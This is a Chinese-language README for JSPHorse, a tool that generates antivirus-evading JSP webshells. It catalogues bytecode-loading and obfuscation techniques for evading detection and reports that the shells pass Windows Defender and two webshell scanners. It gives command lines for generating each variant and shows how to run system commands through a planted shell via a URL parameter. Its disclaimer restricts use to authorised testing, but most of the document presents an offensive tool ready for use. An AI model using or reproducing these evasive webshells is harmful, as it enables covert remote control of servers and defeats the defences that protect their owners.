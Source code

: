 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

一个JSP免杀Webshell生成器，主要支持普通回显Webshell，也实现了蚁剑的免杀

生成代码技术基于AST库`JavaParser`和字节码操作框架`ASM`

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

主要的免杀技术：

- 基本的Java反射调用免杀
- BCEL格式字节码反射加载免杀
- ScriptEngine调用JS免杀
- Javac动态编译class免杀
- java.beans.Expression免杀
- 自定义ClassLoader加载字节码免杀
- native方法defineClass0加载字节码免杀
- ASM直接构造字节码(普通和BCEL)并加载执行免杀

代码生成方式：

- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

- 生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

- 生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

- 生成Javac动态编译class的Webshell

`java -jar JSPHorse.jar -p your_password --javac`

- 使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

- 使用Expression免杀

`java -jar JSPHorse.jar -p your_password --expr`

- 使用自定义ClassLoader加载字节码

`java -jar JSPHorse.jar -p your_password --classloader`

- 用ASM动态生成字节码使用自定义ClassLoader加载

`java -jar JSPHorse.jar -p your_password --classloader-asm`

- 加载BCEL字节码免杀（动态构造字节码）

`java -jar JSPHorse.jar -p your_password --bcel`

- 用ASM动态生成BCEL字节码免杀

`java -jar JSPHorse.jar -p your_password --bcel-asm`

- 使用Proxy类的native方法`defineClass0`加载字节码

注意：原理是在JVM中注册类，不允许重复，所以这种马只能执行一次命令然后失效

但`JSPHorse`从字节码层面构造了不同的类，如果想要多次执行只要重复生成多个马即可

`java -jar JSPHorse.jar -p your_password --proxy`

- 使用`defineClass0`加载ASM直接构造的字节码

注意：原理同上，只能执行一次

但`JSPHorse`每次生成的类名不一致，可以重新生成来做多次执行

`java -jar JSPHorse.jar -p your_password --proxy-asm`

- 任何一种方式加入`-u`参数进行Unicode编码（有时候有奇效）

`java -jar JSPHorse.jar -p your_password --expr -u`

- 使用`-o`指定输出文件，默认输出到`result.jsp`

`java -jar JSPHorse.jar -p your_password -o 1.jsp`

- 如何使用

1. 普通情况：`1.jsp?pwd=your_password&cmd=ipconfig`

2. 蚁剑：正常使用

## 感谢

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考su18师傅的`defineClass0`方式：https://github.com/su18

## 免责申明

**未经授权许可使用`JSPHorse`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


